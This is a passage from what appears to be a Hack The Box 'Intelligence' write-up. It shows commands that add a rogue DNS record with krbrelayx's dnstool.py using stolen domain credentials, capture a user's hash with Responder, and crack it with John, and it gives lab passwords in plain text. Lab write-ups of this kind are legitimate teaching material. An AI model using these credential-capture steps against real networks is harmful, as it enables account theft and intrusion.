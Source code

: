 If we could forge a phony DNS record, we may be able to capture Ted.Grave's attempt to authenticate to it via Responder.

To do this lets use dnstool.py in the https://github.com/dirkjanm/krbrelayx repo.

Lets create a record and call it webTest pointing back to our attacking machine:

```
┌──(ryan㉿kali)-[~/Tools/exploits/krbrelayx]
└─$ python dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -a add -r 'webTest' -d 10.10.14.60 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

We can then set up a Responder listener:

```
┌──(ryan㉿kali)-[~/HTB/Intelligence]
└─$ sudo responder -I tun0 
```

And wait for the downdetector.ps1 script to run (could take up to 5 minutes)

Nice, that worked! We captured Ted.Graves hash as his script attempted to authenticate to our record:

![intelligence_responder.png](../assets/intelligence_assets/intelligence_responder.png)

Lets try cracking it in John:

![intelligence_john1.png](../assets/intelligence_assets/intelligence_john1.png)

Cool, we now have Ted.Graves password: Mr.Teddy

Still unable to logon anywhere, and not finding anything of use in SMB, I run bloodhound-python to enumerate the domain and user privileges:
